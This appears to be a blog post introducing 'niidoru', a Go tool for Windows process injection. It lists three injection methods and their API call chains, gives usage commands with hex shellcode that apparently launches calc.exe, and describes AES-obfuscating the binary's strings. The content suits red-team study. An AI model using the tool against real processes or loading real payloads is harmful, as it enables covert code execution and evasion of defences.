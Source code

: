 ```yaml
---
layout: post
title: Playing with process injection in Golang
excerpt_separator: <!--more-->
---
```


niiidoru ("ニードル") is a framework for Process Injection in Windows developed in Go.

<!--more-->


Repository: [https://github.com/ricardojoserf/niidoru](https://github.com/ricardojoserf/niidoru)

```
go run . -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```

- -m (Mandatory): Process injection method. Options:


    - *-m 1*: **Method 1** or **CreateRemoteThread** method (OpenProcess + VirtualAllocEx + WriteProcessMemory + CreateRemoteThread + CloseHandle)

    - *-m 2*: **Method 2** or **QueueUserAPC** method (OpenProcess + VirtualAllocEx + WriteProcessMemory + OpenThread + QueueUserAPC + CloseHandle)

    - *-m 3*: **Method 3** or **EarlyBird** method (CreateProcess + VirtualAllocEx + WriteProcessMemory + VirtualProtectEx + QueueUserAPC + ResumeThread + CloseHandle)

- -p (Optional):  Process ID or PID. Example: 1234

- -n (Optional):  Process name. Example: notepad.exe

- -h (Optional):  Hexadecimal payload. It can be in the format "\x50\x51\x52" or "505152". Default: Payload to pop calc.exe 


<br>

------------------------------

## Examples

Process injection using CreateRemoteThread method, targeting a notepad.exe process and a payload in hexadecimal format with "\x":  

```
go run . -m 1 -n notepad.exe -h \x50\x51\x52\x53\x56\x57\x55\x6A\x60\x5A\x68\x63\x61\x6C\x63\x54\x59\x48\x83\xEC\x28\x65\x48\x8B\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48\x8B\x30\x48\x8B\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B\x74\x1F\x20\x48\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17\x8D\x52\x02\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xEF\x8B\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48\x01\xF7\x99\xFF\xD7\x48\x83\xC4\x30\x5D\x5F\x5E\x5B\x5A\x59\x58\xC3
```

Process injection using QueueUserAPC method, targeting a process with PID 4272 and a payload in hexadecimal format without "\x":

```
go run . -m 2 -p 4272 -h 505152535657556A605A6863616C6354594883EC2865488B32488B7618488B761048AD488B30488B7E3003573C8B5C17288B741F204801FE8B541F240FB72C178D5202AD813C0757696E4575EF8B741F1C4801FE8B34AE4801F799FFD74883C4305D5F5E5B5A5958C3
```

Process injection using EarlyBird method, spawning a new Notepad process and the default payload:

```
go run . -m 3 -n c:\windows\system32\notepad.exe 
```

Screenshot of the three examples:

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/niidoru/Screenshot_1.png)


------------------------------

## Using the binary

Compile it with:

```
go build
```

Then you can use the same commands as earlier replacing "go run ." with "niidoru.exe":

``` 
niidoru.exe -m <METHOD> [ -p <PID> | -n <PROCESS_NAME> ] [ -h HEXADECIMAL_PAYLOAD ]
```

<br>

------------------------------

## AES encryption

AES is used to obfuscate all the strings in the binary. To change the encrypted values and keys you can use [this gist](https://gist.github.com/ricardojoserf/986b8be42b356da530469bbd32fa88fa) (which is a small variation from [this gist](https://gist.githubusercontent.com/aziza-kasenova/3aea2160cbaebc5a4ba1b9219cba612e/raw/32b3801369ce669b2b1bf89ca84d24f23b487579/AES256.go) but fixing a small problem with the padding). 

If you are not interested in this and just want to see the encryption methods with more representative names, you can check the [no-encryption branch](https://github.com/ricardojoserf/niidoru/tree/no_encryption).
